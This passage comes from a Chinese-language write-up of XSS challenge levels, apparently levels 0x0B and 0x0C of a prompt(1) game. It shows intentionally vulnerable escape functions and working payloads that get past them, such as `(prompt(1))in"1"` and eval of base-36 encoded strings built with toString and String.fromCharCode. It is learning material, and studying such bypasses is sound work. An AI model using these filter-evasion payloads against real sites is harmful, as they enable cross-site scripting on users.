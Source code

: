     // directly "parse" data in script context
    return '                                \n\
&lt;script>                                    \n\
    var data = ' + dataString + ';          \n\
    if (data.action === "login")            \n\
        document.write(data.message)        \n\
&lt;/script> ';
}     </code></pre>

在js中，`(prompt(1))instanceof"1"`和 `(prompt(1))in"1"` 是可以成功弹窗的，其中双引号里面的1可以是任何字符，这里的in或者instanceof是运算符，所以可以有这样的语法结构。

<pre class="wp-block-code"><code>"(prompt(1))in"
"(prompt(1))instanceof"</code></pre>

补充一个知识点，`"1"(alert(1))`虽然会提示语法错误， 但是还是会执行js语句弹框。(和浏览器有关)

## 0x0C

<pre class="wp-block-code"><code>function escape(input) {
    // in Soviet Russia...
    input = encodeURIComponent(input).replace(/'/g, '');
    // table flips you!
    input = input.replace(/prompt/g, 'alert');

    // ノ┬─┬ノ ︵ ( \o°o)\
    return '&lt;script>' + input + '&lt;/script> ';
}        </code></pre>

`parseInt()`可以将字符串转数字，语法`parseInt(<em>string</em>, <em>radix</em>)`。

| 字段   | 含义                                                         |
| ------ | ------------------------------------------------------------ |
| string | 必需。要被解析的字符串。                                     |
| radix  | 可选。表示要解析的数字的基数。该值介于 2 ~ 36 之间。 如果省略该参数或其值为 0，则数字将以 10 为基础来解析。如果它以 “0x” 或 “0X” 开头，将以 16 为基数。 如果该参数小于 2 或者大于 36，则 parseInt() 将返回 NaN。 |

`toString()`也有一个可选参数radix，找一个足够大的基数来包含所需的所有字符，就可以将字符串编码为一个数字，然后`eval`转换的结果（数字>字符串）。<figure class="wp-block-image size-full">

<img loading="lazy" width="245" height="100" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/08/图片-179.png" alt="" class="wp-image-2945" /> </figure> 

可以构造如下payload:

```
eval((1558153217).toString(36))(1)

eval((1172936279).toString(34).concat(String.fromCharCode(40)).concat(1).concat(String.fromCharCode(41)))
解释:concat连接，String.fromCharCode(40)->(， String.fromCharCode(41)->)

eval((25).toString(30).concat(String.fromCharCode(114)).concat(String.fromCharCode(111)).concat(String.fromCharCode(109)).concat(String.fromCharCode(112)).concat(String.fromCharCode(116)).concat(String.fromCharCode(40)).concat(1).concat(String.fromCharCode(41)))
```
